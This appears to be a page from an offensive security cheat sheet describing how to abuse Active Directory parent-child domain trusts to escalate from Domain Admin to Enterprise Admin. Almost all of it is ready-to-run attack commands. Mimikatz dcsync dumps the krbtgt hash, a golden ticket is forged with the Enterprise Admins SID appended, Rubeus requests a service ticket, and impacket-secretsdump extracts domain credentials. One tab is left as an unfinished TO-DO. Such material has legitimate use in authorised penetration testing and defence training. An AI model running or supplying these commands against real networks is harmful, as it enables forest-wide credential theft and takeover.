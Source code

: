 ```yaml
---
title: "Abuse Parent Child Domain Trusts"
date: 2024-7-2
tags: ["kerberos", "da", "ea", "active directory", "ad", "domain controller", "Windows", "golden ticket", "privesc", "mimikatz", "rubeus", "trusts"]
---
```


### Privesc from DA (Domain Admin) to EA (Enterprise Admin)

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check trust relationships

<div>

```console
# Get all trusted domain objects in a forest
Get-ADTrust -Filter *
```

```console
# Returns a list of trusted domains
nltest /domain_trusts
```

```console
# Gets a collection of the trust relationships of the current forest
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

</div>

#### 2. Get current and target domain SID

<div>

```console
./mimikatz.exe 'lsadump::trust' 'exit'
```

</div>

#### 3. Get krbtgt hash of current domain

<div>

```console
./mimikatz.exe 'lsadump::dcsync /all /csv' 'exit'
```

</div>

#### 4. Forge a golden ticket

<div>

```console
# Append '-519' to target domain SID
./mimikatz.exe 'kerberos::golden /user:Administrator /rc4:<HASH> /domain:<CURRENT_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<TARGET_DOMAIN_SID>-519 /ticket:C:\ProgramData\ticket.kirbi' 'exit'
```

<small>*Note: Try different high value hashes if failed*</small>

</div>

#### 5. Request a tgt ticket of target domain

<div>

```console
./rubeus.exe asktgs /service:cifs/<TARGET_DOMAIN> /domain:<DOMAIN> /dc:<DC> /ticket:C:\ProgramData\ticket.kirbi /outfile:C:\ProgramData\ticket_2.kirbi /nowrap /ptt
```

</div>

{{< /tabcontent >}}

#### 6. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

<div>

```console
python3 rubeustoccache.py <BASE64_TICKET_2> secrets.kirbi secrets.ccache
```

</div>

#### 2. Secrets Dump

<div>

```console
export KRB5CCNAME=secrets.ccache
```

```console
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass
```

</div>

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

#### 1. TO-DO

```console
TO-DO
```

</div>

{{< /tabcontent >}}

<br>